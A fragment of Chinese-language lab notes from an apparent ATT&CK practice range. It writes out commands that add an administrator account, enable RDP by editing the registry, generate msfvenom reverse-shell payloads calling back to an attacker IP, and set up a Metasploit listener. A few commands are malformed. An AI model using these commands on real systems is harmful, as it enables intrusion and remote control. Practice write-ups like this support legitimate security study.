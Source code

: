 ```
net user whoami Y4tacker1 /add
net user localgroup administrators /add
```

开启3389端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```



### 提权

接下来利用msf生成马子

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.111.129 LPORT=50000 -f exe -o openme.exe
msfvenom -p cmd/unix/reverse_python LHOST=192.168.111.129 LPORT=50000 -f raw > shell.py

```

或者

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b '\x00' lhost=192.168.111.129 lport=50000 -f exe > payload.exe
```

kali当中输入

```
use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 192.168.111.129
lhost => 192.168.111.129
msf6 exploit(multi/handler) > set lport 50000
lport => 50000
msf6 exploit(multi/handler) > exploit -z -j
使用exploit -j -z可在后台持续监听,-j为后台任务,-z为持续监听
```

之后开启

![](H:\靶场\ATT&CK实战系列\学习过程\第一个\图片\step1-2.png)

有个bug是我payload不对

```
最好还是用下面这个 我session -i 1进不去

set payload windows/meterpreter/reverse_tcp
```

之后查看系统信息，发现是32位windows系统

```
meterpreter > sysinfo
Computer        : STU1
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : GOD
Logged On Users : 2
Meterpreter     : x86/windows
```
